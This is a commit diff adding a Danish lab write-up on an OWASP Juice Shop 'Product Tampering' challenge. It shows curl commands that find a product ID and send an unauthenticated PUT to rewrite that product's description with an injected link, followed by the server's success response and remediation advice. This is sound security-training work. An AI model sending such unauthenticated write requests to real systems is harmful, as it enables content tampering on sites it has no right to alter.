

Before and after one commit to CorenDuchai/Opgaver, a Markdown page: Opgave 5/README.md, the part around one of its changes. Shown at 80% size. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
Add verified Product Tampering PoC and clarify local DOM versus unauthenticated API write

````diff
--- a/Opgave 5/README.md
+++ b/Opgave 5/README.md
@@ -248,6 +248,52 @@ Et almindeligt klientkald modtog interne detaljer om databasen, ORM-frameworket
 
 ---
 
+## Sikkerhedsfund 4 – Product Tampering / Broken Access Control
+
+**Kategori:** Broken Access Control (manglende autorisationskontrol på API-niveau)
+**Status:** Bekræftet løst **30. oktober 2026**, efter den seneste JSON-eksport. Ny samlet challenge-total er ikke kontrolleret med et nyt Score Board-screenshot eller en ny eksport.
+
+### Første forsøg – ændring af browserens DOM
+
+Jeg åbnede produktet **OWASP SSL Advanced Forensic Tool (O-Saft)**, fandt linket i Firefox DevTools' Inspektør og ændrede `href` direkte til `https://owasp.slack.com`. Det ændrede **kun den lokale DOM i browseren**. Challenge-beskrivelsen sagde blot, at linket skulle ændres; den specificerede ikke, at ændringen skulle gemmes server-side og overleve en genindlæsning. Derfor gav dette forsøg ingen challenge-markering.
+
+### Verificeret PoC – ændring af produktet via API
+
+Fra Ubuntu-terminalen blev produkt-ID'et identificeret ved at søge i produkt-API'ets JSON-resultat:
+
+```bash
+curl -s http://127.0.0.1:3000/api/Products/ | \
+python3 -c 'import json,sys; print(next(p["id"] for p in json.load(sys.stdin)["data"] if "O-Saft" in p["name"]))'
+# 9
+```
+
+Derefter blev produktbeskrivelsen opdateret **uden login eller Authorization-header**:
+
+```bash
+curl -i -X PUT http://127.0.0.1:3000/api/Products/9 \
+  -H "Content-Type: application/json" \
+  -d '{"description":"<a href=\"https://owasp.slack.com\" target=\"_blank\">More...</a>"}'
+```
+
+**Faktisk svar:**
+
+```http
+HTTP/1.1 200 OK
+Content-Type: application/json; charset=utf-8
+```
+
+Serverens JSON indeholdt `"status":"success"`, `"id":9`, den nye `description` og `"updatedAt":"2026-10-30T09:16:33.136Z"`. Juice Shop viste succesnotifikationen for **Product Tampering** (tre ens notifikationer fra samme challenge; ikke tre separate challenges).
+
+### Hvorfor er det en sårbarhed?
+
+Serverens API accepterede en skriveoperation, som ændrede et produkts gemte indhold, fra en **ikke-autentificeret klient**. Forskellen fra den oprindelige DevTools-ændring er, at en API-`PUT` ændrer tilstanden på serveren og dermed påvirker andre brugere. Det kan misbruges til manipulation af indhold, eksempelvis til at indsætte uønskede links.
+
+Den viste kildekode i Juice Shop har ikke tilstrækkelig beskyttelse af `PUT /api/Products/:id`; en kommenteret autorisationsregel i `server.ts` illustrerer den manglende adgangskontrol. Den sårbare endpoint-adfærd er direkte verificeret med `HTTP 200` og den ændrede produktbeskrivelse.
+
+**Afhjælpning:** Kræv autentifikation og eksplicit server-side autorisation for produktændringer; begræns skriveadgang til relevante administrative roller, og tilføj regressionstests, hvor en anonym `PUT` skal afvises (fx `401 Unauthorized` eller `403 Forbidden`). Desuden bør administrative ændringer logges.
+
+---
+
 ## Øvrige undersøgelser og læringspunkter
 
 ### Recycling: client-side kontrol vs. server-side validering
````
Also changed, not shown: other parts of Opgave 5/README.md (+3 -2 lines).
